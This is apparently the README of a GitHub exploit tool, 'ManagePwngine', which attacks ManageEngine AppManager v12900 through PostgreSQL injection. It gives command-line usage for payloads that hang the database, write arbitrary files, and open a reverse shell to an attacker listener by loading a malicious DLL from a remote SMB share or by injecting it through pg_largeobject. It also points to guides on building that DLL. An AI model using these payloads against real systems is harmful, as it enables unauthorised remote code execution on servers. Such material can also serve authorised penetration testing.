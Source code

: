 # ManagePwngine
Automatic exploitation script for ManageEngine AppManager v12900. 
Principles apply to any PostgreSQL injection.

# Usage

There are 4 payload types included with this tool:
- sleep
- shell
- write
- ezshell

Each payload type has slightly different requirements.

This tool can be used once a payload is selected:
`python3 ManagePwngine.py {payload} {target} {arguments}`

For example:
`python3 ManagePwngine.py ezshell localhost --dll shell.dll --lhost 192.168.0.1 --lport 1337`

All payloads require a payload and a target. Certain payloads require more configuration.

## sleep

The `sleep` payload requires no additional arguments. A `sleep()` function will be injected and the database will hang.
This payload is recommended as a first-pass to validate whether or not injection is possible against the target.

![sleep payload](/static/sleep.png)

## write

The `write` payload requires no additional arguments.
The payload will write a `test.txt` file to `C:\test.txt` with the contents `pwned` using a `COPY TO` injection. This can be modified as needed
to write arbitrary files in arbitrary locations.

![write payload](/static/write.png)

## shell

The `shell` payload requires the following arguments:
- --lhost: Your listener IP.
- --lport: Your listener port.
- --dll: The name of the malicious DLL that will be loaded remotely by PostgreSQL. See the DLL section for more information.
- --smbshare: The name of your SMB share hosting the malicious DLL.

Optionally:
- --function: The name of the function within the DLL that creates the reverse shell connection. See the DLL section for more information.

The payload will use `CREATE OR REPLACE FUNCTION` to create a User-Defined Function (UDF) that PostgreSQL will load from a remote location - your SMB share.
Once the UDF is created, it is triggered to call your reverse shell. The success of this injection hinges on your compiled DLL.

![shell payload](shell.png)

## ezshell

The `ezshell` payload requires the following arguments:
- --lhost: Your listener IP.
- --lport: Your listener port.
- --dll: The name of the malicious DLL saved locally.

Optionally:
- --function: The name of the function within the DLL that creates the reverse shell connection. See the DLL section for more information.

The payload will inject your DLL into the `pg_largeobject` table, 2048 bytes at a time. Once the full binary is loaded, the large object (LO) will be exported,
then a UDF will be created and triggered using the newly-saved DLL. This is considered 'ez' since there is no SMB setup or remote calls required, so this is
exploitable remotely.

![ezshell payload](ezshell.png)

---

# DLL Information

The malicious DLL needs to be compiled with a `PG_MODULE_MAGIC` macro. There are several references online, like:

- https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#rce-in-windows
- https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html

If you create a function name other than `connect_back` within the DLL, you'll need to provide it to the `shell` or `ezshell` payloads with `--function`.